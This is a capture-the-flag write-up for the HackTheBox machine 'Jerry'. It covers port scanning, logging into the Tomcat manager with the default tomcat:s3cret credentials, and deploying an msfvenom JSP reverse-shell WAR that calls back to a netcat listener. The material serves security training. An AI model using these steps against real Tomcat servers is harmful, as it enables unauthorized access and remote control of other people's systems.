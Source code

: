 # Jerry

## Overview

Hello everyone, In this writeup we are going to solve Jerry from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Jerry](https://app.hackthebox.com/machines/Jerry)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

### Rustscan

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.95 -- -A -T4 -v -Pn`

<figure><img src="../.gitbook/assets/Untitled (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 1 (14).png" alt=""><figcaption></figcaption></figure>

### Results

From the results of `rustscan`, we can see that on port `8080`, Apache Tomcat service is running.

***

## Information Gathering - Port 8080

I visited the web server running on `http://10.10.10.95:8080/`.

<figure><img src="../.gitbook/assets/Untitled 2 (14).png" alt=""><figcaption></figcaption></figure>

We can see the default home page of the Apache Tomcat server. I started exploring by clicking all the buttons and links in the home page.

<figure><img src="../.gitbook/assets/Untitled 3 (14).png" alt=""><figcaption></figcaption></figure>

I clicked the Manager App button and it redirected me to the following link: [http://10.10.10.95:8080/manager/html](http://10.10.10.95:8080/manager/html), which prompted me for a username and password:

<figure><img src="../.gitbook/assets/Untitled 4 (13).png" alt=""><figcaption></figcaption></figure>

On investigating about the above URL, I found this&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials" %}

<figure><img src="../.gitbook/assets/Untitled 5 (13).png" alt=""><figcaption></figcaption></figure>

***

## Enumeration - Port 8080

I tried `admin:admin` combination in the prompt and it thrown me the following error:

<figure><img src="../.gitbook/assets/Untitled 6 (13).png" alt=""><figcaption></figcaption></figure>

From the above error, we can see that they have shown a example, in which they have used `tomcat:s3cret` combination. Let’s give it a try with this combination.

<figure><img src="../.gitbook/assets/Untitled 7 (10).png" alt=""><figcaption></figcaption></figure>

It worked and we got access to the Application Manager.

Further surfing the Application Manager, we can see that there is an option to upload files of type WAR.

<figure><img src="../.gitbook/assets/Untitled 8 (10).png" alt=""><figcaption></figcaption></figure>

***

## Initial Access

We can generate a `msfvenom` reverse shell and upload it as mentioned here:&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell" %}

<figure><img src="../.gitbook/assets/Untitled 9 (9).png" alt=""><figcaption></figcaption></figure>

Generate the Reverse Shell using the following command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HTB_tun_IP> LPORT=8888 -f war -o revshell.war`

<figure><img src="../.gitbook/assets/Untitled 10 (9).png" alt=""><figcaption></figcaption></figure>

Now upload this `revshell.war` file and click deploy.

<figure><img src="../.gitbook/assets/Untitled 11 (9).png" alt=""><figcaption></figcaption></figure>

Now if we check the Applications table, we can see that a new path `/revshell` is generated.

<figure><img src="../.gitbook/assets/Untitled 12 (9).png" alt=""><figcaption></figcaption></figure>

Before clicking or viewing the `/revshell` link, start a `netcat` listener on your attack box / local machine on port `8888`

<figure><img src="../.gitbook/assets/Untitled 13 (9).png" alt=""><figcaption></figcaption></figure>

Now click the `/revshell` and check the `netcat` listener.

<figure><img src="../.gitbook/assets/Untitled 14 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 15 (7).png" alt=""><figcaption></figcaption></figure>

We have successfully got access to the target machine.

***

## Getting the Flags

Now we have to look out for the flags. I started surfing the machine. I visited the `C:\Users` directory and found the following users:

<figure><img src="../.gitbook/assets/Untitled 16 (6).png" alt=""><figcaption></figcaption></figure>

I checked the Administrator directory. In the Desktop folder of Administrator found the `flags` directory.

<figure><img src="../.gitbook/assets/Untitled 17 (4).png" alt=""><figcaption></figcaption></figure>

The flags directory had a file named `2 for the price of 1.txt`.

You can view the contents of the `2 for the price of 1.txt` file using the command: `more "2 for the price of 1.txt"`

<figure><img src="../.gitbook/assets/Untitled 18 (4).png" alt=""><figcaption></figcaption></figure>

We have successfully found both the user and root flags.

Thank You !!!!!!!
